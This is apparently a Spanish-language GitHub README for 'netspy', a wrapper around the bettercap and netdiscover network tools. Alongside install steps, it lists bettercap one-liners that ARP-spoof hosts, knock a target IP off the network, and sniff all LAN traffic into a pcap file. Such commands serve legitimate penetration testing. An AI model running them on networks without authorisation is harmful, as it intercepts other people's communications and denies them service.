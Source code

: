 <img width="1356" height="742" style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

# Bettercap v2.9

Escanear toda la Red:
net.probe on; ticker on

Banear tarjet IP con ARP:
set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

www.hackingyseguridad.com
